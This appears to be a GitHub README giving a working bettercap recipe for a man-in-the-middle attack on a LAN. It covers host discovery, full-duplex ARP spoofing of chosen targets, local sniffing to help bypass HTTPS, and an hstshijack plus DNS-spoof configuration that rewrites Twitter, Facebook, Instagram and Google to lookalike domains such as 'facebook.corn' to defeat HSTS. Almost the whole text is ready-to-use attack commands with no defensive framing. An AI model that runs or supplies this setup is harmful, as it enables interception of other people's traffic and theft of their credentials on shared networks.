 # ARPSppofer-w-bettercap

## Prerequisutes
1. Make sure you have namp/netdiscover installed (could also use nmap for host scanning).
2. Bettercap should be installed as well.

## Usage
1. Find some hosts to spoof within your LAN.
   1. `bettercap -iface <interface>`
   2. `net.probe on`
   3. `net.show`
   4. Pick a client and exit bettercap.
   5. __Note: Can also use netdiscover or nmap for host scanning.__
2. Create/Edit your spoof caplet (spoof.caplet)
   1. `set arp.spoof.fullplex true`  : Capture both incoming/outgoing traffic. 
   2. `set arp.spoof.targets <target ip/mac>` : Comma-separated list of IPs/MACs to spoof.
   3. `set net.sniff.local true` :  Sniff local (attackbox) traffic as well - needed for bypassing HTTPS.
3. Edit hstshijack config file to bypass specific sites configured with HSTS.
   1. `nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap `
   2. Targets and replacements could look like this… (customize to your liking)
    `
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,instagram.com,*.instagram.com,google.com,*.google.com, gstatic.com, *.gstatic.com
    set hstshijack.replacements    twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
   3. dns.spoof.domains could look like this... (customize to your liking)
    `
    dns.spoof.domains
    set dns.spoof.domains  twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
4. Start bettercap with customized caplet.
   1. `bettercap -iface <interface> -caplet <capletfile>`
   2. Example: `bettercap -iface eth0 -caplet spoof.caplet`
5. Enable/Verify hstshijack caplet is enabled.
   1. `hstshijack/hstshijack`
   2. `caplets.show`








